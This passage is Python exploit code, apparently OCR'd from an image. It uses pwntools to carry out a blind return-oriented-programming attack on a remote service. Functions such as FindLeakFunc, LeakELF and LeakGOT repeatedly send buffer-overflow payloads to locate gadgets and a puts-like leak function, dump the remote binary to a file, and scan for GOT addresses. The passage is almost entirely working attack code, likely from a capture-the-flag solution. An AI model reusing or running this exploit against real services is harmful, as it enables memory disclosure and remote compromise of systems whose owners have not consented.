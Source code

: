 ```py
        if b'Do not dump' in mssg:
            pwn.log.success("Found pop gadget at: " + hex(i))
        io.close()


def FindLeakFunc():
    funcs = []
    for i in range(BINARY_BASE, BINARY_BASE+0x4000):
        io = pwn.remote(HOST, PORT, level='critical')
        payload = b'A'*OFFSET
        payload += pwn.p64(BROP_GADGET + 9)  # pop rdi
        payload += pwn.p64(BINARY_BASE)
        payload += pwn.p64(i)
        io.send(payload)
        mssg = io.recv(0x1000, timeout=0.2)
        if b'ELF' in mssg:
            pwn.log.success("Found leak func at: " + hex(i))
            funcs.append(i)
        io.close()
    return funcs


def LeakELF():
    f = open('leak.elf', 'wb')
    offset = BINARY_BASE
    while(offset < BINARY_BASE + 0x4000):
        pwn.log.info("At offset: " + hex(offset))
        io = pwn.remote(HOST, PORT, level='critical')
        payload = b'A'*OFFSET
        payload += pwn.p64(BROP_GADGET + 9)  # pop rdi
        payload += pwn.p64(offset)
        payload += pwn.p64(CALL_PUTS)
        io.recvuntil(b"?\n")
        io.send(payload)
        mssg = io.recvall().strip()
        print(hex(pwn.unpack(mssg, 'all')))
        if len(mssg) == 0:
            f.write(b'\x00')
            offset += 1
        else:
            f.write(mssg)
            offset += len(mssg)
        io.close()
        f.flush()


def LeakGOT():
    for i in range(0x600000, 0x600000+0x4000, 8):
        io = pwn.remote(HOST, PORT, level='critical')
        payload = b'A'*OFFSET
        payload += pwn.p64(BROP_GADGET + 9)  # pop rdi
        payload += pwn.p64(i)
        payload += pwn.p64(CALL_PUTS)
        io.recvuntil(b"?\n")
        io.send(payload)
        mssg = io.recvall().strip()
        if b'\x7f' in mssg:
            pwn.log.success("Found Possible GOT at: " + hex(i))
            io.close()
        io.close()


def scanQWORD(l):
```